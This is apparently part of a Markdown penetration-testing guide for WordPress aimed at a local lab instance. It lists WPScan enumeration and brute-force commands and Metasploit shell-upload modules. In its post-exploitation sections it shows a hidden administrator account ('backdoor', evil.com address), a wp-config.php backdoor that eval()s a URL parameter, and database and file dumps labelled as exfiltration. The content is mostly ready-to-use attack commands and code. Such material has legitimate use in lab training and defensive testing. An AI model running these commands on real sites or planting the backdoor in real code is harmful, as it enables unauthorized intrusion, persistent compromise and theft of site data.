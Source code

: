 ## Automated Exploitation

### WPScan Commands
```bash
# Full scan
wpscan --url http://localhost:8087 \
  --enumerate ap,at,cb,dbe,u \
  --plugins-detection aggressive \
  --api-token YOUR_TOKEN

# Specific plugin scan
wpscan --url http://localhost:8087 \
  --enumerate p \
  --plugins-list vulnerable-plugin

# Password attack
wpscan --url http://localhost:8087 \
  --passwords rockyou.txt \
  --usernames admin,editor \
  --max-threads 50
```

### Metasploit Modules
```bash
# Scanner
use auxiliary/scanner/http/wordpress_scanner
use auxiliary/scanner/http/wordpress_login_enum

# Exploits
use exploit/unix/webapp/wp_admin_shell_upload
use exploit/unix/webapp/wp_ajax_load_more_file_upload
```

## Post-Exploitation

### Persistence
```bash
# Create admin user via wp-cli (if accessible)
wp user create backdoor backdoor@evil.com --role=administrator --user_pass=hacked123

# Add to wp-config.php
define('WP_BACKDOOR', true);
if (defined('WP_BACKDOOR') && isset($_GET['backdoor'])) {
    eval($_GET['backdoor']);
}
```

### Data Exfiltration
```bash
# Export database
mysqldump -u wpuser -p wordpress > dump.sql

# Export files
tar -czf wordpress-backup.tar.gz /var/www/html/
```
